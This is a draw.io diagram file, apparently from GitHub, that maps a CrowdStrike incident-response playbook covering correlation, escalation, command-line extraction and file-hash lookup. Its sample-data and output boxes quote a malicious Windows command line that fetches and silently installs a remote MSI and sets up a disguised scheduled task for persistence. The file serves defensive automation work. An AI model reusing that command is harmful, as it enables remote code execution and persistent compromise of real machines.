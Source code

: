 <mxfile version="22.0.4" type="github">
  <diagram name="Page-1" id="wvW3ehxdYdoYtSaxa3fH">
    <mxGraphModel dx="875" dy="478" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="850" pageHeight="1100" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="NKeEgVbL9whLPdXC6YmX-3" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-1" target="NKeEgVbL9whLPdXC6YmX-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-1" value="Crowdstrike Event Correlation" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="150" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-5" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-2" target="NKeEgVbL9whLPdXC6YmX-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-2" value="Triggers&lt;br&gt;- On Event Ingestion" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="350" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-9" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-4" target="NKeEgVbL9whLPdXC6YmX-22">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="760" y="1680" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-4" value="Correlation" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="550" y="1650" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-11" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-10">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-16" value="True" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-11">
          <mxGeometry x="0.151" y="-3" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-14" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-8" target="NKeEgVbL9whLPdXC6YmX-13">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-17" value="False" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-14">
          <mxGeometry x="0.042" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-8" value="Any Incident Linked?" style="rhombus;whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="950" y="1630" width="100" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-10" value="Added to the Related Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1209" y="1580" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-19" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-13" target="NKeEgVbL9whLPdXC6YmX-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-13" value="Check Artifacts" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1209" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-21" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-18" target="NKeEgVbL9whLPdXC6YmX-20">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-18" value="Escalate to Incident" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1409" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-20" value="Passdown" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1609" y="1730" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-23" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-22" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-22" value="Link Incident with Same ID&lt;br&gt;Command - Link to Related Event Incident" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="740" y="1650" width="150" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-24" value="" style="endArrow=none;html=1;rounded=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="820" y="1650" as="sourcePoint" />
            <mxPoint x="820" y="1580" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-28" value="&lt;h1&gt;API Response&lt;/h1&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;{&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &quot;Escalate Incidents&quot;: [&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; &amp;nbsp; &quot;20230425-1573&quot;&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p style=&quot;line-height: 50%;&quot;&gt;}&lt;/p&gt;" style="text;html=1;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;strokeColor=default;fillColor=default;" vertex="1" parent="1">
          <mxGeometry x="730" y="1420" width="180" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-33" value="" style="endArrow=none;html=1;rounded=0;entryX=0.504;entryY=0.98;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-8">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1000" y="1780" as="sourcePoint" />
            <mxPoint x="1010.86" y="1730" as="targetPoint" />
            <Array as="points">
              <mxPoint x="1000" y="1750" />
            </Array>
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-45" value="&lt;h1&gt;Condition Type - Input&lt;/h1&gt;&lt;p&gt;{% set returnData = PlaybookData | jsonpath(&#39;$.[&quot;Link Incident with Same ID&quot;].returnData&#39;) | string_to_json_object%}&lt;/p&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;&lt;p&gt;{{returnData|jsonpath(&#39;$.[&quot;Escalate to Incidents&quot;]&#39;)|to_list|length &amp;gt; 0}}&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="905" y="1780" width="190" height="240" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-48" value="&lt;h1&gt;Data Formatter&lt;br&gt;&lt;/h1&gt;&lt;p&gt;{{{&quot;EscalateTo&quot;: PlaybookData | jsonpath(&#39;$.[&quot;Check Artifacts&quot;].returnData.Data[*].IncidentNo&#39;)|to_list}}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=default;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1300" y="1890" width="360" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-49" value="" style="endArrow=none;html=1;rounded=0;entryX=0.592;entryY=1.016;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.473;exitY=0;exitDx=0;exitDy=0;exitPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-48">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1410" y="1839.04" as="sourcePoint" />
            <mxPoint x="1470.04" y="1790" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-50" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="140" y="1350" width="1600" height="740" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-52" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Nested Playbook For CrowdStrike&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="170" y="1370" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-56" value="&lt;font style=&quot;font-size: 24px;&quot;&gt;Incident Playbooks - Cross Stack Investigation&lt;br&gt;&lt;/font&gt;" style="text;html=1;strokeColor=#6c8ebf;fillColor=#dae8fc;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="80" y="110" width="320" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-57" value="" style="rounded=0;whiteSpace=wrap;html=1;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="90" y="60" width="8410" height="1160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-60" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-72" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-58" target="NKeEgVbL9whLPdXC6YmX-71">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-58" value="CrowdStrike Data Ingestion" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="120" y="370" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-66" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-59" target="NKeEgVbL9whLPdXC6YmX-65">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-59" value="Investigation-Initial Findings&lt;br&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-61" value="" style="endArrow=none;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-62" target="NKeEgVbL9whLPdXC6YmX-59">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="409.99" y="510.0" as="sourcePoint" />
            <mxPoint x="409.71" y="438.2" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-62" value="&lt;h1&gt;The Actual Data&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Host Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;LAB1-PC1&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Source IP&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;10.82.0.24&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Command Line&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;lt;nul &amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Event Time&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;2023-04-17T22:07:4.043Z&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Data Source&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;CrowdStrike&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="285" y="500" width="250" height="160" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-68" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-65" target="NKeEgVbL9whLPdXC6YmX-67">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-65" value="Investigation-Initial Finding Behaviors&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Commands - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="370" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-67" value="Investigation-Summary&lt;br&gt;Commands - Add Investigation Details" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="370" width="140" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-76" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-75">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-71" value="Get Command Lines&lt;br&gt;Data Formatter" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="320" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-73" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-71" target="NKeEgVbL9whLPdXC6YmX-74">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="410" y="260" as="sourcePoint" />
            <mxPoint x="460" y="210" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-74" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-78" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-75" target="NKeEgVbL9whLPdXC6YmX-77">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-75" value="Extract File Info&lt;br&gt;Commands - RSA_ExtractFileInfo" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="570" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-91" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-77" value="Crowdstrike Get File Hash&lt;br&gt;Commands - RSA_CrowdstrikeGetFileHash" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="830" y="270" width="180" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-79" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;{{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[*].EventData.behaviors[*].cmdline&#39;)|unique}}&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-80" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-79">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="660" y="270" as="sourcePoint" />
            <mxPoint x="770" y="240" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-81" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;amp;lt;nul &amp;amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="140" width="200" height="100" as="geometry" />
        </mxCell>
